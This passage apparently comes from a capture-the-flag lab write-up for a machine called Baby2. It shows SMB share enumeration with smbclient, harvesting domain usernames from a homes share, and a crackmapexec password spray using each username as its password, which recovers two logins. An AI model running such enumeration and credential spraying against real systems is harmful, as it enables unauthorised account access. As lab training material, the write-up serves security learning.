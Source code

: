 
>What we learn from nmap scan: we can add our /etc/hosts baby2.vl dc.baby2.vl and enumurate smb and ldap (its need to call us bloodhound)

## SMB Enumerate
    ➜  baby2 smbclient -L \\baby2.vl    
    Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        apps            Disk      
        C$              Disk      Default share
        docs            Disk      
        homes           Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.

>We can access some shares. Lets look at homes first.

    ➜  baby2 smbclient \\\\baby2.vl\\homes            
    Password for [WORKGROUP\root]:
    Try "help" to get a list of possible commands.
    smb: \> ls
     .                                   D        0  Sat Sep  2 10:45:25 2023
     ..                                  D        0  Tue Aug 22 16:10:21 2023
    Amelia.Griffiths                    D        0  Tue Aug 22 16:17:06 2023
    Carl.Moore                          D        0  Tue Aug 22 16:17:06 2023
    Harry.Shaw                          D        0  Tue Aug 22 16:17:06 2023
    Joan.Jennings                       D        0  Tue Aug 22 16:17:06 2023
     Joel.Hurst                          D        0  Tue Aug 22 16:17:06 2023
    Kieran.Mitchell                     D        0  Tue Aug 22 16:17:06 2023
    library                             D        0  Tue Aug 22 16:22:47 2023
    Lynda.Bailey                        D        0  Tue Aug 22 16:17:06 2023
    Mohammed.Harris                     D        0  Tue Aug 22 16:17:06 2023
    Nicola.Lamb                         D        0  Tue Aug 22 16:17:06 2023
    Ryan.Jenkins                        D        0  Tue Aug 22 16:17:06 2023

                6126847 blocks of size 4096. 1996458 blocks available
    smb: \>

> I save them at smbusers.txt and for save successfully I uses cut;

    cat smbusers.txt| cut -d " " -f3 |tee users.txt

> and run directly crackmapexec no brute-force but maybe missconfiguration.

    ➜  baby2 crackmapexec smb baby2.vl -u users.txt -p users.txt --continue-on-success --no-bruteforce
    SMB         dc.baby2.vl     445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
    SMB         dc.baby2.vl     445    DC               [+] baby2.vl\library:library 

> we got here 2 creds lets continue with library:library
